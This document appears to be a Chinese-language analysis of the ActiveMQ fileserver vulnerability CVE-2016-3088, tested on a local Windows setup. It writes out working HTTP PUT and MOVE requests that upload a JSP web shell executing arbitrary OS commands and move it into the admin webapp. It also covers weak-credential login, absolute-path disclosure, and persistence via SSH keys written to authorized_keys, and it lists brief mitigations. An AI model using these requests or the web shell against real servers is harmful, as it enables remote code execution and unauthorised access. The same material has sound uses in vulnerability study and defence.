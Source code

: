 # CVE-2016-3088分析

------------------------------------------  

### 0x00 前言  


### 0x01 目录  
1. 漏洞概述
2. 漏洞验证
3. 防护措施
4. 分析
5. exploit

### 0x02 正文
__1. 漏洞概述__  

1. 漏洞信息  
	按照官方说法的影响版本为： `5.0.0 - 5.13.2`；
	在这些版本中，由于开启了 fileserver 服务，用户可以上传任意文件，从而造成代码执行；除此之外，该服务还会爆出 web 项目的绝对路径。在代码执行的过程中，能执行的目录下可能需要验证用户，这里可以使用弱口令，或者将 ssh 公钥写入到 .ssh/authorized_keys 中，从而直接使用 ssh 登陆。
2. 触发条件  

step1: 使用 put 方法将需要执行的文件上传到服务器上  
step2: 使用 move 方法将文件移动到可执行目录下  
step3: 使用弱口令登陆，代码执行   

>由官方所说的影响版本，测试过程中发现有很多不稳定的情况，部分版本访问 fileserver 目录出现 500，部分版本不能将文件已到可执行目录下，部分版本需要验证用户，有些不需要。
	

__2. 漏洞验证__  
1. 验证环境：  
 `windows7`  
 `activeMQ 5.10.0`

2.使用 BurpSuite 发送 HTTP 请求上传文件：  
这里要注意一下，首先文件只能上传到 fileserver 目录下，在 fileserver 目录下，不能上传 jsp 文件，也不能执行 jsp 文件。

	PUT /fileserver/1.txt HTTP/1.1
	Host: 127.0.0.1:8161
	Content-Length: 370

	<%@ page import="java.io.*"%>

	<%
	    out.print("Hello</br>");
	
		String strcmd = request.getParameter("cmd");
		String line = null;
	
		Process p=Runtime.getRuntime().exec("cmd /c "+ strcmd);
		BufferedReader br=new BufferedReader(new InputStreamReader(p.getInputStream()));

		while((line = br.readLine()) != null) {
		    out.print(line + "</br>"); 
		}
	%>

<img src="Images/Image1.png" width="300">

3.使用 BurpSuite 将文件移到可执行目录 webapps/admin 下：

	MOVE /fileserver/1.txt HTTP/1.1
	Host: 127.0.0.1:8161
	Destination: file:../webapps/admin/1.jsp
	Content-Length: 0
	
<img src="Images/Image2.png" width="500">

4.访问 `127.0.0.1:8161/admin/1.jsp?cmd=dir`，这里 activeMQ 5.10.0 需要登录，使用弱口令 `admin/admin`：

<img src="Images/Image3.png" width="400">

###### 其他姿势：  
1.访问 fileserver 加一个不可见字符(url编码形式)可以爆出绝对路径：  
url编码下的不可见字符，比如： `%01-%0D`  

<img src="Images/Image4.png" width="500">

2.如果是 linux 环境下，可以使用上面的步骤，为了绕过用户验证，将公钥写入 .ssh/authorized_keys 中，使用 ssh 登陆。

__3. 防护措施__  
1.升级至 5.13.2 过后的版本  
2.官方可以禁止 MOVE 方法  
3.官方可以修改 MOVE 方法，不允许 MOVE 到可执行目录和 web 项目外的目录

__4. 分析__  
__5. exploit__  


</br>

------------------------------------------
References:  
简书: <http://www.jianshu.com/p/db23dcb99dcc>  
ifun01:  <https://ifun01.com/BCAJFZG.html>  

Author: xx  
Time: 2017.7.3